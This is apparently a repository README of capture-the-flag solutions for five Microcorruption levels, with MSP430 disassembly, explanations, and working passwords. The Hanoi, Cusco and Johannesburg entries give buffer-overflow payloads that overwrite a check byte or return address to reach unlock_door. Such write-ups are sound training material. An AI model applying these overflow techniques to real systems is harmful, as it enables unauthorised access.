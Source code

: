 # microcorruption
CTF solutions to https://microcorruption.com/

## New Orleans

#### Exploit: Static Analysis

Go to the function `create_password` to find the password created.

```
447e <create_password>
447e:  3f40 0024      mov	#0x2400, r15
4482:  ff40 3100 0000 mov.b	#0x31, 0x0(r15)
4488:  ff40 3d00 0100 mov.b	#0x3d, 0x1(r15)
448e:  ff40 6a00 0200 mov.b	#0x6a, 0x2(r15)
4494:  ff40 6b00 0300 mov.b	#0x6b, 0x3(r15)
449a:  ff40 6700 0400 mov.b	#0x67, 0x4(r15)
44a0:  ff40 7a00 0500 mov.b	#0x7a, 0x5(r15)
44a6:  ff40 3c00 0600 mov.b	#0x3c, 0x6(r15)
44ac:  cf43 0700      mov.b	#0x0, 0x7(r15)
44b0:  3041           ret
```

Password: `0x31 0x3d 0x6a 0x6b 0x67 0x7a 0x3c`

## Sydney

#### Exploit: Static Analysis

Go to function `check_password` to find what we are checking for.

```
448a <check_password>
448a:  bf90 3b2b 0000 cmp	#0x2b3b, 0x0(r15)
4490:  0d20           jnz	$+0x1c
4492:  bf90 226d 0200 cmp	#0x6d22, 0x2(r15)
4498:  0920           jnz	$+0x14
449a:  bf90 317a 0400 cmp	#0x7a31, 0x4(r15)
44a0:  0520           jne	#0x44ac <check_password+0x22>
44a2:  1e43           mov	#0x1, r14
44a4:  bf90 6451 0600 cmp	#0x5164, 0x6(r15)
44aa:  0124           jeq	#0x44ae <check_password+0x24>
44ac:  0e43           clr	r14
44ae:  0f4e           mov	r14, r15
44b0:  3041           ret
```

In this question, we take note of the concept of endianness.

So `0x2b3b` is really `0x3b` `0x2b`

Password: `0x3b 0x2b 0x22 0x6d 0x31 0x7a 0x64 0x51`

## Hanoi

#### Exploit: Overflowing the checksum

Things are getting harder! Here we are exposed to buffer overflows.

Its all really messy, and it really throws you off. But if you look at the function `login`, there is one line that give it away.

```
455a:  f290 3100 1024 cmp.b	#0x31, &0x2410
4560:  0720           jne	#0x4570 <login+0x50>
4562:  3f40 f144      mov	#0x44f1 "Access granted.", r15
```

We are granted access when memory space `0x2410` is equal to `0x31`

When we key in our input, we observe that it starts at address `0x2400`

This means that we just need to key in a long enough input starting at `0x2400` and slot in `0x31` at address `0x2410`

Password: `AAAAAAAAAAAAAAAA1`

## Cusco

#### Exploit: Overflowing the return address

Another buffer overflow question, but this one deals with return address modification.

In the `login` function, we see that at the end, we add `0x10` to the stack pointer, and return.

```
453a:  3150 1000      add	#0x10, sp
453e:  3041           ret
```

When `ret` is called, it returns to what ever address is stored in the stack pointer. hmmmm... :)

When we key in an input, we see that it starts at address `0x43ee`

Within the function, the stack pointer is moved around.

At the end of the `login` function, the stack pointer moves back to `0x43ee`, and adds `0x10`, and becomes `0x43fe`

It calls `ret` after that, which means that it jumps to whatever address stored in memory space `0x43fe`

Looking at the code, we see that the address for function `unlock_door` is `0x4446`. Translated to ASCII, thats `DF`

We put in an input long enough, so that it's able to overflow into the return address, and write the address of `unlock_door` there.

*Remember about address endian!

Password: `AAAAAAAAAAAAAAAAFD`

## Johannesburg

#### Exploit: Overflowing the return address with a checksum

Yet another buffer overflow question, but this one has a small twist to it.

In the `login` function, they have this compare operation that checks if the address is set to `0xc6`

```
...
4578:  f190 c600 1100 cmp.b	#0xc6, 0x11(sp)
457e:  0624           jeq	#0x458c <login+0x60>
4580:  3f40 ff44      mov	#0x44ff "Invalid Password Length: password too long.", r15
4584:  b012 f845      call	#0x45f8 <puts>
4588:  3040 3c44      br	#0x443c <__stop_progExec__>
458c:  3150 1200      add	#0x12, sp
4590:  3041           ret
```

The logic checks if the input is too long, and it if overwrites that value.

If the address space does not contain `0xc6`, it stops the program immediately, as it has determined that the user input is too long, and has overwritten that address space.

`ret` is called directly after this, and here we aim to redirect it the `unlock_door` function.

The solution is pretty simple: We send in a longer than normal input, with the value `0xc6` at the correct position `0x11(sp)` (that is, 17 addresses down from the current `sp` address), and we end the input string off with the address of `unlock_door` (endian!)

Because `0xc6` is not anywhere on the ASCII table, we cant send a string. Instead, we send the hex equivalent.

Password: `4141414141414141414141414141414141c64644`
